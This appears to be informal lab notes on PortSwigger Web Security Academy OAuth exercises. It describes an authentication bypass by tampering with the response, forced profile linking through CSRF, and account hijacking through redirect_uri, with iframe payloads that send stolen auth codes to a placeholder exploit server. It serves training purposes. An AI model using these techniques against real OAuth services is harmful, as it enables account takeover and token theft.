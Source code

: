 # OAuth


### Authentication bypass via OAuth implicit flow

Observer the entire flow of the auth process. 

After doing all starting step there is an end point `/me` request sent by the client application to server to validate or to get basic information about the user. 

Intercept this request on the go and modify the response of email parameter to other or victim user. (try to change the username parameter also but in this case it is optional).

After **response modification** we logged in as victim user.

### Forced OAuth profile linking

1st and foremost thing is, in the process of authentication there is no STATE parameter (which is protection for CSRF) so it might vuln to CSRF

After clicking of attaching social profile after logging in, It is creating an ID (client_id) 

This client ID is unique for a session (works only one time)

This client ID is passing to followed by interaction --> auth --> oauth-linking

To attack this vuln, we need to replicate these steps to get our own valid client_id that was created with our social credentials and we need to stop (drop) before oauth-linking request i.e. is at the auth request.

Now copy the URL (with client_id) craft an xss payload to trigger this URL. Then the application will follow the next steps that is oauth-linking.

We will send this payload via CSRF. (JS included in code)

`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>`

That results, whoever visits the URL, our social login creds will linked to the victim account. So we can login with our social creds with victim creds.

### SSRF via OpenID dynamic client registration

### OAuth account hijacking via redirect_uri

After initiating the and requests followed by there is a request that contains (`/auth?client_id`) client_id and redirect_uri. 

The redirect_uri is vulnerable. If we send it to repeater and replace with attacker website we are not getting any errors.

And after the `/auth?client_id` the client_id is passing to the redirect_uri. so if we replace the redirect_uri with our attacker website we can see the client_id in our logs.

So we will send our client id along with our attacker url as redirect_uri as CSRF. that will results sending the auth code to our attacker logs.

No we will use this auth code in our browser to `/oauth-callback` with the stealed or received auth ID. 

Now this will complete the remaining steps of linked our account to the victim account. And now we will be logged in as victim.

CSRF Payload:
`<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

### Stealing OAuth access tokens via an open redirect

### Stealing OAuth access tokens via a proxy page
